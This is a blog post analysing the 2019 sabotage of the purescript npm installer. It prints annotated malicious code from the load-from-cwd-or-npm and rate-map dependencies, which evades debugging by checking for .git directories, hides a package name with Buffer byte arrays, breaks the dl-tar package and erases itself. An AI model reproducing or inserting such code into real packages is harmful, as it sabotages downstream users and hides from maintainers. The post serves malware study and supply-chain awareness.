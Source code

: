 ```yaml
---
layout: post
title: My Favourite Dep Malware PureScript NPM Installer
subtitle: A tale of a really cool piece of malware you probably haven't heard of
toc: true
#cover-img: /assets/img/solarwindsceocv.png
thumbnail-img: /assets/img/post5/npm-installer.png
share-img: /assets/img/post5/npm-installer.png
tags: [supplychain, sdlc]
---
```


#### Background


In July 2019, code was added to an upstream of the [`purescript` npm installer](https://www.npmjs.com/package/purescript) which sabotaged the completion of the installation process in a particularly interesting way. The subterfuge was particularly difficult to uncover/debug, taking 5 days for some of the most talented and skilled npmjs devs almost 5 days to unravel. It wouldn't be unfair to say that this event "stumped" (their words, not mine) some of the most talented and well versed engineers in this space.
It's my favourite dep malware, not because it resulted in some epic hack, but because it was so well executed by somebody with an innate understanding of the downstream landscape.

The malware takes advantage of how downstream projects load in the affected code, it uses conditional exploitation logic to hamper debug efforts, and uses just the right level of obfuscation to not immediately look suspect (no super sus looking B64'd blobs here). The malicious software also cleans up after itself.

In this post I hope to step through just how all this took place, so maybe we can all be impressed and together. This particular event got very little coverage, so hopefully you find reading about it notable even though it was a little while ago.

My colleagues really like it when I annotate malware for them, particularly side-by-side, so here's an attempt at posting in that format.

#### Timeline



#### What you're looking at / code intent

The samples below both sabotage the `purescript`  npm installer process to prevent it running successfully under certain conditions.





####   The Details: exploit version 1 `load-from-cwd-or-npm@3.0.2`

You can grab a copy of the dependency off of my repo here:  [`load-from-cwd-or-npm@3.0.2`](https://github.com/5stars217/My_Fav_Malware/tree/main/load-from-cwd-or-npm-3.0.2)

Load up a editor and open `load-from-cwd-or-npm@3.0.2` index.js file.

Check out lines 50 - 83: - I am going to #annotate the below snippet for you, watch out for the comments (#) in the code snippet.
The below code is designed to determine the environment it is running in, and decide what action to take.

`const tasks = [PassThrough];`

    //Create tasks array containing the Passthrough Stream Constructor.
    //Call tasks.unshift twice, so that it winds up at index 2 later.

  ``if (argLen === 2) {
     if (typeof args[1] !== 'function') {
        throw new TypeError(`Expected a function to compare two package versions, but got ${
          inspectWithKind(args[1])
    }.`);
  }``

  `} else {
    #call  tasks.unshift 1
  tasks.unshift(resolveSemverFromNpm);

  }`

      //call tasks.unshift 2. Now the PassThrough constructor is at index 2 in the tasks array.

`tasks.unshift(resolveFromNpm(modulePkgId));``

`try {
  const results = await Promise.all(tasks);
  let parent = module;`

    //Here comes a do-while loop that works out how the code is being run,
      //by inspecting the parent property of each module in the chain.
        //Check out the path.endsWith("cli")

    `do {   
    parent = parent.parent;`

  `try {
    const {path} = parent;`

    //the attacker is deciding whether or not to run the exploit code, by checking on the version of the purescript npm installer,
    //and if there is a .git working directory.  If the code detects a .git working directory, it'll skip the exploit.
    //This is because .git directories aren't present in production environments, so it makes debugging this issue way harder.
    // The intent is to  determine if a particular version of an installer is being run,
    //and if the code is being run in a environment where it could be easily debugged!

       `if (path.endsWith('cli') || [path, dirname(path)].some(dir => existsSync(resolve(dir, '.git')))) {
        parent = 'npm';
        break;
      }
    } catch (_) {}
  } while (parent);`

  //The purpose of this parent variable is just the layup for the exploit code if the above conditions are met to allow for it.

  `if (typeof parent !== 'string') {
    return results[2];
  }`

  //here's that [2] what's happening here is an if statement returning the PassThrough constructor
  //in the case where the malicious code is being run, this breaks a related function to pull down some
  //packages to complete the building of the software:

`const request = loadFromCwdOrNpm("request");
request("https://github.com/.../archive.tar.gz").pipe(...);`



#### The Details: exploit version 2 `rate-map@1.0.3`

You can grab a copy of the dependency off of my repo here:  [`rate-map@1.0.3`](https://github.com/5stars217/My_Fav_Malware/tree/main/rate-map-1.0.3/package)

Things get a little spicier from this point on. This version of the exploit contains the same `do-while` loop decision gate on exploitation, but it includes some significant upgrades.

`let parent = module;
const {
  existsSync: existsSync,
  readFileSync: readFileSync,
  writeFileSync: writeFileSync
} = require("fs");
  //You'll see the same check here if the code is running in a debug or non production environment.
  //But it'll also check for the presence of the `dl-tar` package on local filesystem via obfuscation:
do {
  parent = parent.parent;
  try {
    const { path: path } = parent;
    if (
      path.endsWith("cli") ||
      [path, dirname(path)].some(dir => existsSync(resolve(dir, ".git")))
    ) {
      parent = "npm";
      break;
    }
  } catch (_) {}
} while (parent);
if (typeof parent !== "string") {
  const px = require.resolve(
    # `Buffer.from` obfuscates the check for the `dl-tar` package on local filesystem.
    Buffer.from([100, 108, 45, 116, 97, 114]).toString()
  );
  //store the `index.js` from `dl-tar` in the `px` variable in the next block, which will rewrite the current file to remove the malicious code!
  try {
    writeFileSync(
      __filename,
      readFileSync(__filename, "utf8").replace(
        /let parent[^\0]*module\.exports/u,
        "module.exports"
      )
    );
  } catch (_) {}
//this next block replaces any lines in `dl-tars`'s `index.js` file to match the regex `/\n\s*cb\(null, chunk\` with empty strings, the result is that `dl-tar` users can't install the project.
  try {
    writeFileSync(
      px,
      readFileSync(px, "utf8").replace(/\n\s*cb\(null, chunk\);/u, "")
    );
  } catch (_) {}
}`




#### Final Notes

I intentionally skipped over some background information surrounding the disagreements between authors of `purescript` and `load-from-cwd-or-npm` etc. I just think the techniques used particularly  in `rate-map@1.0.3` are great uses of light (but effective) obfuscation and conditional exploitation.
